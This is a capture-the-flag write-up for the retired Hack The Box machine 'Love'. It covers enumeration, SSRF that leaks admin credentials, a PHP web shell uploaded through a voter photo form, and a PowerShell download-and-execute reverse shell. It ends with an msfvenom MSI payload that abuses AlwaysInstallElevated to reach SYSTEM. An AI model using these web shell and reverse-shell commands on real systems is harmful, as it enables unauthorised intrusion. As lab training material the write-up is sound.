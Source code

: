 # Love

This is the write-up for the box Love that got retired at the 7th August 2021.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.239   love.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/love.nmap 10.10.10.239
```

```
PORT     STATE SERVICE      VERSION       
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Voting System using PHP
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| tls-alpn:
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTPS (Port 443)

The web page on port 443 shows the HTTP status code _403 Forbidden_, but the SSL certificate has some valuable information.

There is a common name _staging.love.htb_ that has to be put into the _/etc/hosts_ to access it.
The email address has the name _roy_ in it, which could be a potential username.

Unfortunately the hostname also resolves in the HTTP status code _403 Forbidden_.

## Checking HTTP (Port 5000)

The web page on port 5000 shows the HTTP status code _403 Forbidden_.

## Checking HTTP (Port 80)

The web service on port 80 shows a login form to a _Voting System_ with the title _"Voting System using PHP"_:

![Voting system login](love_web-1.png)

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.10.239 dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
```

It finds the directory _/admin_ with a similar login form.

The hostname _staging.love.htb_ forwards to another service called _Free File Scanner_.
The menu _Demo_ allows us to specify and URL to scan a file:

![Free File scanner demo](love_web-2.png)

It is possible to specify the other web services and it can be used to enumerate them.
By specifying localhost and the port, it shows the web page behind the service:

![Exploiting SSRF vulnerability](love_web-3.png)

```
Vote Admin Creds admin: @LoveIsInTheAir!!!!
```

The credentials work on the _/admin_ login form found earlier.

### Exploiting Voting System

There is a link in the footer to the source of the application which is a [project on sourcecodester.com](https://www.sourcecodester.com/php/12306/voting-system-using-php.html).

In the menu _Voters_ it is possible to add a new entry and upload a photo:

![Upload image](love_web-4.png)

This might be vulnerable to an arbitrary file upload if it does not validate images and it may be possible to upload PHP files to execute code.
Lets upload an image and forward the request to a proxy like **Burpsuite** and change the image data to PHP code:
```
POST /admin/voters_add.php HTTP/1.1
Host: 10.10.10.239
(...)
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: image/jpeg

<?php
system($_REQUEST['cmd']);
?>
(...)
```

The file gets uploaded to _/image/shell.php_ and it is possible to execute system commands:
```
http://10.10.10.239/images/shell.php?cmd=whoami
```

This can now be used to upload and execute a reverse shell script.
I will use the _Invoke-PowerShellTcpOneLine.ps1_ script from the **Nishang scripts**:

```
POST /images/shell.php HTTP/1.
(...)

cmd=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/shell.ps1')"
```

After sending the request, the script gets downloaded and executed and the listener on my IP and port 9001 starts a reverse shell as the user _phoebe_.

## Privilege Escalation

To get an attack surface, it is recommended to run any **Windows Enumeration Script**:
```
curl 10.10.14.8:8000/winPEASx64.exe -o winpeas.exe

.\winpeas.exe
```

The [AlwaysInstallElevated](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated) registry key is enabled which allows to execute **.msi** files with SYSTEM permissions.

Creating reverse shell payload with **Msfvenom**:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=9002 -f msi > payload.msi
```

Downloading payload to the box:
```
C:\Users\Public\Documents> curl 10.10.14.8:8000/payload.msi -o payload.msi
```

Executing the payload:
```
msiexec /q /i payload.msi
```

After executing the payload, the listener on my IP and port 9002 starts a reverse shell as _SYSTEM_!
